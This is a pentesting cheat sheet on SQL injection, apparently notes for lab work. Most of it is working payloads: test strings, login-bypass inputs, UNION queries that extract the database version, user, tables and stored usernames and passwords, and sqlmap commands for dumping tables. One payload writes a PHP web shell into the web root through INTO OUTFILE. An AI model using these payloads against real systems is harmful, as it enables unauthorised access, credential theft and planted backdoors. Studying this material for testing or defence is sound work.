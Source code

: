 # SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration
The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inj.php?id=1 union all select 1,2,3,@@version,5
```
You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:
```
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```
Get the current user:
```
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```
See all tables:
```
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```
Get column names for a specified table: 
```
http://ip/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```
Get usernames and passwords (0x3a means `:`):
```
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```
You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root: 
```
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
I suspect you could inject a full reverse shell in there too...

## POST parameters
You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a `'` at the end, like `lang=en'`.

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```
It may not run unless you specify the database type.

Get the databases: 
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```
Get the tables in a database:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```
Get the columns in a table:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```
Dump a table:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```
If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:
```
sqlmap -r request.txt
```
If you just need to pass a cookie:
```
sqlmap -u "http://[host]/inject.php" --cookie "PHPSESSID=foobar"
```
## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
* [SQLmap tutorial](https://www.binarytides.com/sqlmap-hacking-tutorial/)
